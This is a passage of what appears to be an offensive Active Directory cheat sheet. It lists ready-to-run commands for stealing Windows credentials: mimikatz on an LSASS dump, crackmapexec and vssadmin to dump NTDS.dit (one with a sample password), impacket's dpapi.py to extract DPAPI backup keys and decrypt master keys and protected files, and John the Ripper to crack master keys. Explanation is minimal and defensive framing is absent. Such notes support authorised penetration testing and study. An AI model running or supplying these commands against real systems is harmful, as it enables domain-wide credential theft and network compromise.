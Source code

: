 > parse creds with mimikatz

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

you can do it locally with mimikatz using : `sekurlsa::logonpasswords`.

#### NTDS Dumping

**Abusing DRSUAPI for NTDS dumping**

```
crackmapexec smb 10.10.13.100 -u 'Administrator' -p $password --ntds drsuapi
```

**Abusing VSS for NTDS dumping**

> using Crackmapexec :

```
crackmapexec smb 192.168.1.105 -u 'Administrator' -p 'Ignite@987' --ntds vss
```

_you can do it manually too._

```
vssadmin create shadow /for=C:
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
vssadmin delete shadows /shadow=$ShadowCopyId
```

#### DPAPI Abusing

> dump DPAPI BK

```
dpapi.py backupkeys -t $domain/$user:$password@$target
```

> Decrypt DPAPI MK

```
# Decrypt DPAPI MK using BK
dpapi.py masterkey -file "/path/to/masterkey" -pvk "/path/to/backup_key.pvk"
# Decrypt DPAPI MK using MK password and user SID
dpapi.py masterkey -file "/path/to/masterkey" -sid $USER_SID -password $mk_password
```

> decrypting protected file using MK

```
dpapi.py credential -file "/path/to/protected_file" -key $MASTERKEY
```

_crack DPAPI master key with JTR_

```
python DPAPImk2john.py --sid="$SID" --masterkey="$MASTER_KEY" --context="local"
john dpapimk.dmp --wordlist=/usr/share/wordlists/rockyou.txt --rules=custom.rule
```
